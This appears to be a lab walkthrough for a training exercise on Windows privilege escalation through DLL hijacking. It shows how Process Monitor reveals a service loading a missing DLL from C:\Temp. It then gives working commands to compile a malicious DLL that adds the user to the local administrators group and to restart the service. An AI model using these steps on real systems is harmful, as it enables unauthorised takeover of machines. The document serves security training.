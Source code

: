 
# Escalation Path DLL Hijacking

This attack exploits **DLL hijacking** by replacing a missing **DLL file** that a vulnerable service tries to load. If the service runs with **high privileges**, an attacker can execute **malicious code** as an **administrator**.

## What is a DLL (Dynamic Link Library)?

A **DLL (Dynamic Link Library)** is a **shared file** that contains code and data that multiple programs can use simultaneously. It helps in **code reusability**, **reducing memory usage**, and **improving performance**.

## Detection

**Windows VM**

Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on `Procmon.exe` and select ‘`Run as administrator`’ from the menu. 

In procmon, select "`filter`".  From the left-most drop down menu, select ‘`Process Name`’.  

In the input box on the same line type: `dllhijackservice.exe`

Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  

Next, select from the left-most drop down menu ‘Result’. 

In the input box on the same line type: **NAME NOT FOUND 

Make sure the line reads “`Result is NAME NOT FOUND then Include`” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  

Open command prompt and type: `sc start dllsvc`

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘`C:\Temp\hijackme.dll`’ yet it could not do that as the file was not found. 

Note that ‘C:\Temp’ is a writable location.

## Exploitation

**Windows VM**

Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_dll.c`’ to the Kali VM.

**Kali VM**

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```
cmd.exe /k net localgroup administrators user /add
```

Exit the text editor and compile the file by typing the following in the command prompt:

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file `hijackme.dll`, to the Windows VM.

**Windows VM**

Place hijackme.dll in ‘`C:\Temp`’.  


Open command prompt and type: 

```
sc stop dllsvc & sc start dllsvc
```  

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```

